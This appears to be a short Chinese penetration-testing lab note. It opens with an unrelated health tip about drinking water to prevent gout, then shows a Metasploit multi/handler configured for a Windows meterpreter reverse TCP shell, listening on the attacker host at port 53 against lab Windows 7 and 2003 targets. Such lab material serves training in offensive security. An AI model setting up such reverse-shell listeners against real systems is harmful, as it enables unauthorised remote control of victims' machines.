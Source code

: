 **注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

**攻击机：**   
192.168.1.5 Debian  
**靶机：**   
192.168.1.4 Windows 7  
192.168.1.119 Windows 2003

### 攻击机配置：

payload：windows/meterpreter/reverse_tcp
```bash
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 

Payload options (windows/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)

LHOST 192.168.1.5 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port 

Exploit target: 

Id Name
‐‐ ‐‐‐‐
0 Wildcard Target

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.5:53 
```
![](/img/05b541c239afdafa628b0ef194eddcb7.jpg)
